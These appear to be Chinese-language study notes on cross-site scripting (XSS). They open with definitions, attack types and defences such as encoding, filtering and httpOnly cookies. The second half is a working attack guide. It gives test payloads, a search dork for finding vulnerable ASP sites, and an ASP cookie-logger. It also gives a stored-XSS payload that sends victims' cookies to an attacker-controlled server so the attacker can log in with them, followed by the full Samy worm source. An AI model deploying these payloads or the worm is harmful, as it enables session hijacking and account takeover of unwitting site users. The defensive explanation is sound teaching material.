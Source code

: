# xss-introduce
# xss introduce
理解XSS的攻击手段和原理
掌握xss攻击的防范措施
了解XSS的定义
跨站脚本漏洞将允许攻击者在一个网站中执行恶意脚本，OWASP给出的XSS漏洞定义如下：
“一名攻击者可以利用XSS漏洞向不知情的用户发送恶意脚本。终端用户的浏览器无法确定这些脚本是否可信任，并且会自动运行这些恶意脚本。因为它会认为这个脚本来自一个可信任的源，而恶意脚本将访问浏览器中保存的cookie、会话token或其他的敏感信息，并利用这些信息来完成其他的恶意目的，而有些脚本甚至还可以修改页面的HTML代码。”


理解xss的原理（必备）
理解xss的攻击方式
掌握xss的防御措施

理解XSS攻击方式：
反射型：发出请求时，XSS代码出现在URL中（典型的特征，攻击脚本写在URL中，是明文的），作为输入提交到服务器端，服务器端解析后响应（），XSS代码随响应内容一起传回给浏览器（解析了XS代码，服务端把内容与HTML文本下发给浏览器，通常是js脚本），最后浏览器解析执行XSS代码这个过程想一次反射，故叫反射型XSS
演示：构建Node应用，演示反射型XSS攻击

存储型：差别在于提交的代码会存储在服务器端（数据库，内存，服务系统等）下次请求页面时不用再提交XSS代码。
1)反射型XSS: 就如上面的例子，也就是黑客需要诱使用户点击链接。也叫作"非持久型XSS“(Non-persistent XSS)
2)存储型XSS:把用户输入的数据”存储“在服务器端。这种XSS具有很强的稳定性。
比较常见的一个场景是，黑客写下一篇包含恶意Javascript代码的博客文章，文章发表后，所有访问该博客文章的用户，都会在他们的浏览器中执行这段恶意的Javascript代码。黑客把恶意的脚本保存在服务器端，所以中XSS攻击就叫做"存储型XSS"。
3)DOM based XSS:也是一种反射型XSS，由于历史原因被单独列出来了。通过修改页面的DOM节点形成的XSS，称之为DOM Based XSS。
XSS脚本怎么进入服务端？
XSS防御措施：
编码：不能对用户所有输入保持原样
对用户输入的数据进行HTML Entity编码
 
过滤：把输入不合法的过滤掉，保持安全性
移除用户上传的DOM属性，如onerror，onclick等
移除用户上传的Style节点，script节点，iframe节点等
对于开发人员来说，首先需要注意的是应该对所有用户提交的内容执行坚如磐石输入验证。这包括网址，查 询字符串，header，POST 数据等所有用户提交的内容。只接受您所希望的字符，在您指定的长度内，和指定 的相应的数据的格式。组织，过滤，或忽略一切。 2. 保护被自动执行或来自第三方网站执行的所有敏感功能。在适当的情况使用会话令牌 27、验证码 28系统或者 HTTP 引用头检查。 3. 如果您的网站必须支持用户提供的 HTML，那么你是处在一个安全明智的下滑坡。然而，也有一些事情可以 做，来保护您的网站。请确保您收到的 HTML 内容是良好的，只包含最少的一组安全标签（绝对没有 JavaScript）， 没有包含任何引用远程的内容（尤其是样式表和 JavaScript）。而且，为了多一点的安全性，请将 httpOnly29添 加到您的 cookie

校正：破坏了正常的页面结构，也是一种XSS攻击
避免直接都HTML Entity解码
使用DOM Parse（文本转成DOM结构）转换，校正不配对的DOM标签 

掌握XSS的防御措施
实战：
构建Node服务和建立一个评论，实例演示XSS的攻击预防


Xss攻击常见测试语句
<scrtpt>alert(‘test’)</script>
<svg onload=alert(‘test’)>


http://www.ocelltech.com/en/so.asp
search：inurl:'Product.asp?BigClassName'//google
中华网
*/><script>alert(1)</script>
把alert里面的内容换成document.cookie就可以
*/><script>alert(document.cookie)</script>
一般的做法是<html>
<title>xx</title>
<body>
<%testfile = Server.MapPath("code.txt") //先构造一个路径，也就是取网站根目录，创造一个在根目录下的code.txt路径，保存在testfile中
msg = Request("msg")   //获取提交过来的msg变量，也就是cookie值
set fs = server.CreateObject("scripting.filesystemobject")//创建一个fs对象
set thisfile = fs.OpenTextFile(testfile,8,True,0)
thisfile.WriteLine(""&msg&"")//像code.txt中写入获取来的cookie
thisfile.close()   //关闭
set fs = nothing%>
</body>
</html>




把上述文件保存为cookie.asp文件，放到你自己的网站服务器下。比如这里我们自己搭建的服务器为：http://10.65.20.196:8080。 
XSS构造语句
<script>window.open('http://10.65.20.196:8080/cookie.asp?msg='+document.cookie)</script>
把上述语句放到你找到的存在XSS的目标中，不过这里最好是存储型xss，比如你找到了某个博客或者论坛什么的存在存储型XSS，你在里面发一篇帖子或者留上你的评论，内容就是上述语句，当其他用户或者管理员打开这个评论或者帖子链接后，就会触发，然后跳转到http://10.65.20.196:8080/cookie.asp?msg=’+document.cookie的页面，然后当前账户的coolie信息就当成参数发到你的网站下的文件里了。然后的然后你就可以那这个cookie登陆了


Samy蠕虫源码
1.<div id=mycode style="BACKGROUND:url('java  
2.script:eval(document.all.mycode.expr)')"expr="var B=String.fromCharCode(34);varA=String.fromCharCode(39);function g(){varC;try{varD=document.body.createTextRange();C=D.htmlText}catch(e){}if(C){return 
3.C}else{return eval('document.body.inne'+'rHTML')}}function 
4.getData(AU){M=getFromURL(AU,'friendID');L=getFromURL(AU,'Mytoken')}function getQueryParams(){varE=document.location.search;var F=E.substring(1,E.length).split('&');var AS=new Array();for(varO=0;O<F.length;O++){varI=F[O].split('=');AS[I[0]]=I[1]}return AS}var J;varAS=getQueryParams();varL=AS['Mytoken'];varM=AS['friendID'];if(location.hostname=='profile.myspace.com'){document.location='http://www.myspace.com'+location.pathname+location.search}else{if(!M){getData(g())}main()}functiongetClientFID(){return findIn(g(),'up_launchIC( '+A,A)}function nothing(){}functionparamsToString(AV){var N=new 
5.String();var O=0;for(var P 
6.in AV){if(O>0){N+='&'}varQ=escape(AV[P]);while(Q.indexOf('+')!=-1){QQ=Q.replace('+','%2B')}while(Q.indexOf('&')!=-1){QQ=Q.replace('&','%26')}N+=P+'='+Q;O++}return 
7.N}function httpSend(BH,BI,BJ,BK){if(!J){return 
8.false}eval('J.onr'+'eadystatechange=BI');J.open(BJ,BH,true);if(BJ=='POST'){J.setRequestHeader('Content-Type','application/x-www-form-urlencoded');J.setRequestHeader('Content-Length',BK.length)}J.send(BK);return 
9.true}function findIn(BF,BB,BC){varR=BF.indexOf(BB)+BB.length;varS=BF.substring(R,R+1024);returnS.substring(0,S.indexOf(BC))}functiongetHiddenParameter(BF,BG){return findIn(BF,'name='+B+BG+B+' value='+B,B)}function getFromURL(BF,BG){var T;if(BG=='Mytoken'){T=B}else{T='&'}var U=BG+'=';varV=BF.indexOf(U)+U.length;var W=BF.substring(V,V+1024);var X=W.indexOf(T);var Y=W.substring(0,X);return Y}function getXMLObj(){var Z=false;if(window.XMLHttpRequest){try{Z=new XMLHttpRequest()}catch(e){Z=false}}else 
10.if(window.ActiveXObject){try{Z=new ActiveXObject('Msxml2.XMLHTTP')}catch(e){try{Z=newActiveXObject('Microsoft.XMLHTTP')}catch(e){Z=false}}}return 
11.Z}var AA=g();var AB=AA.indexOf('m'+'ycode');var AC=AA.substring(AB,AB+4096);varAD=AC.indexOf('D'+'IV');var AE=AC.substring(0,AD);varAF;if(AE){AEAE=AE.replace('jav'+'a',A+'jav'+'a');AEAE=AE.replace('exp'+'r)','exp'+'r)'+A);AF=' 
12.but most of all, samy is my hero. <d'+'iv id='+AE+'D'+'IV>'}var AG;function getHome(){if(J.readyState!=4){return}varAU=J.responseText;AG=findIn(AU,'P'+'rofileHeroes','</td>');AGAG=AG.substring(61,AG.length);if(AG.indexOf('samy')==-1){if(AF){AG+=AF;var 
13.AR=getFromURL(AU,'Mytoken');var 
14.AS=new 
15.Array();AS['interestLabel']='heroes';AS['submit']='Preview';AS['interest']=AG;J=getXMLObj();httpSend('/index.cfm?fuseaction=profile.previewInterests&MytokenMytoken='+AR,postHero,'POST',paramsToString(AS))}}}functionpostHero(){if(J.readyState!=4){return}var AU=J.responseText;var AR=getFromURL(AU,'Mytoken');var 
16.AS=new 
17.Array();AS['interestLabel']='heroes';AS['submit']='Submit';AS['interest']=AG;AS['hash']=getHiddenParameter(AU,'hash');httpSend('/index.cfm?fuseaction=profile.processInterests&Mytoken='+AR,nothing,'POST',paramsToString(AS))}function 
18.main(){var AN=getClientFID();varBH='/index.cfm?fuseaction=user.viewProfile&friendID='+AN+'&Mytoken='+L;J=getXMLObj();httpSend(BH,getHome,'GET');xmlhttp2=getXMLObj();httpSend2('/index.cfm?fuseaction=invite.addfriend_verify&friendID=11851658&MytokenMytoken='+L,processxForm,'GET')}functionprocessxForm(){if(xmlhttp2.readyState!=4){return}var AU=xmlhttp2.responseText;var AQ=getHiddenParameter(AU,'hashcode');var AR=getFromURL(AU,'Mytoken');var 
19.AS=new 
20.Array();AS['hashcode']=AQ;AS['friendID']='11851658';AS['submit']='Add to 
21.Friends';httpSend2('/index.cfm?fuseaction=invite.addFriendsProcess&Mytoken='+AR,nothing,'POST',paramsToString(AS))}function 
22.httpSend2(BH,BI,BJ,BK){if(!xmlhttp2){return 
23.false}eval('xmlhttp2.onr'+'eadystatechange=BI');xmlhttp2.open(BJ,BH,true);if(BJ=='POST'){xmlhttp2.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xmlhttp2.setRequestHeader('Content-Length',BK.length)}xmlhttp2.send(BK);return 
24.true}"></DIV> 
